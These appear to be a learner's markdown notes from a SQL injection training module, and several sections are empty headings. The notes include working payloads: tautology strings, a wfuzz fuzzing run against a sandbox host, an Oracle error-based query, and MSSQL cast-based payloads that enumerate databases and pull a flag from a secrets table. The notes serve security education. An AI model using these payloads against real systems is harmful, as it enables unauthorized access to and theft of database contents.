







# Module 9: SQL Injection

## Introduction to SQL Injection

### What is SQL Injection?

_Unsanitized user input inserrted into queries and passed to the database for execution._

## Testing for SQL Injection

### String Delimiters

_Example payload escaping our closing out a string delimiter_

```sql
' or 1=1 -- //
```

### Closing Out Strings and Functions

_Example payload escaping or closing out a function call_

```sql
foo') or 1=1 -- //
```

### Sorting

Use something like Burp Suite to modify the request parameters, ex. sort by ID being change to a column number.

### Boundary Testing

Submit values that may fall outside the scope of a limited data set. Previous example of submitting an invalid column number to receive an error could be considered as a form of Boundary Testing.&#x20;

### Fuzzing

<figure><figcaption><p><em>Capturing POST request to /api/intro in Burp Suite HTTP history</em></p></figcaption></figure>

_Using wfuzz to identify SQL injection_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mysql&id=FUZZ" -u http://sql-sandbox/api/intro

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sql-sandbox/api/intro
Total requests: 125

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                         
=====================================================================

000000007:   500        0 L      48 W       342 Ch      "--';"
000000020:   500        0 L      48 W       360 Ch      "<>"'%;)(&+"  
000000003:   500        0 L      48 W       338 Ch      "#" 
000000014:   500        0 L      50 W       365 Ch      "\x3D%20\x3B'"  
000000021:   200        0 L      1 W        2 Ch        "'%20or%20''='" 
000000018:   500        0 L      52 W       361 Ch      "'or%20select *"  
000000015:   500        0 L      50 W       363 Ch      "\x3D%20\x27" 
000000025:   200        0 L      62 W       495 Ch      "0 or 1=1"
000000058:   500        0 L      48 W       341 Ch      "as"  
...

Total time: 0
Processed Requests: 125
Filtered Requests: 0
Requests/sec.: 0
```


<figure><figcaption><p><em>Using Repeater to test a payload</em></p></figcaption></figure>

<figure><figcaption><p><em>Using Repeater to exploit SQL injection</em></p></figcaption></figure>

## Exploiting SQL Injection

### Error-based Payloads

_Use errors to extract useful information._&#x20;

<figure><figcaption><p>Error-based SQL injection in Microsoft SQL Server</p></figcaption></figure>

<figure><figcaption><p>Error-based SQL injection using ExtractValue() in MySQL</p></figcaption></figure>

_Sample Oracle blind SQL injection payload_

```sql
01  to_char(
02    dbms_xmlgen.getxml(
03      'select "'||
04        (select substr(banner,0,30) from v$version where rownum=1)
05      ||'" from sys.dual'
06    )
07  ) 
```

_Using Offset to query our database name_


```sql
inStock=cast((SELECT+name+FROM+sys.databases+ORDER+BY+name+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY)+as+integer)&name=&sort=id&order=asc
```


_Identifying our schema_


```sql
inStock=cast((select+schema_name+from+exercise.information_schema.schemata+ORDER+BY+schema_name+OFFSET+9+ROWS+FETCH+NEXT+1+ROWS+ONLY)as+integer)&name=&sort=id&order=asc
```


_Querying the flag_


```sql
inStock=cast((select+flag+from+exercise.dbo.secrets)+as+integer)&name=&sort=id&order=asc
```


### UNION-based Payloads

<figure><figcaption><p>Using a UNION to combine two SELECT statements</p></figcaption></figure>

<figure><figcaption><p>Executing a UNION-based SQL injection payload</p></figcaption></figure>

### Stacked Queries


### Reading and Writing Files


### Remote Code Execution


### Extra Miles


## Database dumping with Automated Tools

### SQLMap


## Case Study: Error-based SQLi in Piwigo

### Accessing Piwigo


### Discovering the Vulnerable Parameter


### Exploiting Error-based SQL Injection

